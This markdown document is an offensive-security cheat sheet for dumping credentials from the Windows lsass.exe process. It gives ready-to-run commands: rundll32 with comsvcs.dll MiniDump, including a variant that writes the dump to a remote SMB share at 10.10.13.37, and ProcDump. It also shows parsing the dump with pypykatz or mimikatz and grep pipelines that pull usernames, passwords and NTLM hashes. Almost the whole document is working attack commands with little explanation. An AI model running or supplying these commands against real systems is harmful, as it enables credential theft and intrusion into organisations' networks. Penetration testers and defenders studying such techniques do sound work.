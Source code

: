 # Dump Credentials




## lsass.exe



### LOLBAS


#### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)

```
PS C:\Windows\System32 > Get-Process lsass
PS C:\Windows\System32 > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 940 C:\temp\lsass.dmp full
```

Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id z:\lsass.dmp full
```


#### ProcDump

* [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

Dump and parse:

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp > lsass-pypykatz.minidump
Or
mimikatz # sekurlsa::minidump lsass.dmp
```

Grep for secrets:

```
(mimikatz)
$ grep '* Username : ' lsass-mimikatz.minidump -A2 | grep -e Username -e Password -e NTLM | grep -v null | xclip -i -sel c
(pypykatz)
$ grep -P '\tusername ' lsass-pypykatz.minidump -A2 | grep -e username -e password | grep -v None | xclip -i -sel c
$ grep -P 'Username: ' lsass-pypykatz.minidump -A4 | grep -e Username -e Domain -e NT | grep -v None | xclip -i -sel c
```
